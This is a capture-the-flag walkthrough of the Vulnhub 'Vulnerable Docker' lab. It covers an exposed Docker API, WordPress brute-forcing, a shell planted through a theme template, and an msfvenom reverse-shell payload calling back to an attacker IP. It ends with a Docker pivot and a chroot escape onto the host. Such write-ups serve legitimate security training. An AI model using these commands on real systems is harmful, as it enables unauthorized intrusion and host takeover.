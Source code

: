 # Vulnhub- Vulnerable Docker (Easy)

<img src="https://imgur.com/h5mOkkp.png"/>

We don't need to use `netdiscover` or any other tool to get IP of the box since it already shows at login banner

## NMAP

```
nmap -p- -sC -sV <ip>

PORT     STATE SERVICE VERSION                                            
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                            
|   1024 45:13:08:81:70:6d:46:c3:50:ed:3c:ab:ae:d6:e1:85 (DSA)            
|   2048 4c:e7:2b:01:52:16:1d:5c:6b:09:9d:3d:4b:bb:79:90 (RSA)
|   256 cc:2f:62:71:4c:ea:6c:a6:d8:a7:4f:eb:82:2a:22:ba (ECDSA)
|_  256 73:bf:b4:d6:ad:51:e3:99:26:29:b7:42:e3:ff:c3:81 (ED25519)
2375/tcp open  docker  Docker 17.06.0-ce                                  
| docker-version:                                                         
|   BuildTime: 2017-06-23T21:17:13.228983331+00:00                        
|   Arch: amd64
|   KernelVersion: 3.13.0-128-generic 
|   ApiVersion: 1.30
|   MinAPIVersion: 1.12
|   GitCommit: 02c1d87
|   Version: 17.06.0-ce
|   GoVersion: go1.8.3
|_  Os: linux
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Type: application/json
|     Date: Wed, 24 Mar 2021 18:06:13 GMT
|     Content-Length: 29
|     {"message":"page not found"}
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Type: application/json
|     Date: Wed, 24 Mar 2021 18:05:48 GMT
|     Content-Length: 29
|     {"message":"page not found"}
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Api-Version: 1.30
|     Docker-Experimental: false
|     Ostype: linux
|     Server: Docker/17.06.0-ce (linux)
|     Date: Wed, 24 Mar 2021 18:05:48 GMT
|     Content-Length: 0
|     Content-Type: text/plain; charset=utf-8
|   docker: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
8000/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-generator: WordPress 4.8.1
| http-robots.txt: 1 disallowed entry  
|_/wp-admin/
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: NotSoEasy Docker &#8211; Just another WordPress site
MAC Address: 08:00:27:D7:94:9E (Oracle VirtualBox virtual NIC)
```


## PORT 2375 (Docker)

Since docker api is exposed we can try connecting to port by listing images

<img src="https://imgur.com/hnjrDSL.png"/>

We can also see which containers are currently running

<img src="https://imgur.com/YxHjEAB.png"/>


wordpress:WordPressISBest

## PORT 8000

<img src="https://imgur.com/guNMn4m.png"/>


<img src="https://imgur.com/OqNbLSP.png"/>

Running `wpscan`

<img src="https://imgur.com/Hk25WEl.png"/>

<img src="https://imgur.com/XssFFIb.png"/>

We can now bruteforce the password for `bob`

<img src="https://imgur.com/ixKiiIJ.png"/>

<img src="https://imgur.com/BFwRiFu.png"/>

Using these credentials we can login to wordpress site

<img src="https://imgur.com/I78p0Dv.png"/>

To get a shelll we can edit `404.php` template of the currently active theme

<img src="https://imgur.com/MDkzO7n.png"/>

<img src="https://imgur.com/fm1m8AZ.png"/>

Alternatively you can get a meterpreter shell my generating a payload with `msfvenom`

<img src="https://imgur.com/89Ia2QK.png"/>

<img src="https://imgur.com/bOD2D65.png"/>

<img src="https://imgur.com/4cL3cLZ.png"/>

Now in order to do pivoting web shell are not stable (in both windows and linux ) so after we got the intial foothold we may need to stablize our shell in meterpreter we have to sepefically generate a linux payload 

`msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.1.8 LPORT=4444 -f elf > shell.elf`

<img src="https://imgur.com/92q68tm.png"/>

<img src="https://imgur.com/ugE5apb.png"/>

### Unstable shell

<img src="https://imgur.com/ERLhjBU.png"/>

### New meterpreter shell

<img src="https://imgur.com/7IsF5dj.png"/>

<img src="https://imgur.com/tXpFMT8.png"/>

Now we have added the route to subnet `172.18.0.0` for docker container , we can now scan for open ports on the container and since there are more as we saw from enumerating docker port

<img src="https://imgur.com/B5c7GUq.png"/>

Start `socks4a proxy`

<img src="https://imgur.com/rjsvdRF.png"/>

Use `foxyproxy` to switch to socks4a proxy and since port 8022 is open we can see what's there

<img src="https://imgur.com/cCbqScc.png"/>

<img src="https://imgur.com/fuZoPcy.png"/>

<img src="https://imgur.com/wwDahXe.png"/>

This container has `docker.sock` which allows to communicate with docker meaning creating , adding ,deleting container so there's a trick to mount the host system on the docker container by uploading `docker` and run command `docker run -it -v /:/host/ <container_name> chroot /host/ bash ` binary instead we have docker port and we can access those container so we can remotely do this 

`docker -H tcp://192.168.1.7:2375 run --rm -it -v /:/host wordpress chroot /host bash`

<img src="https://imgur.com/oSqmaSo.png"/>

And we can read the the flag which means we are on a host machine

<img src="https://imgur.com/CiZFvRi.png"/>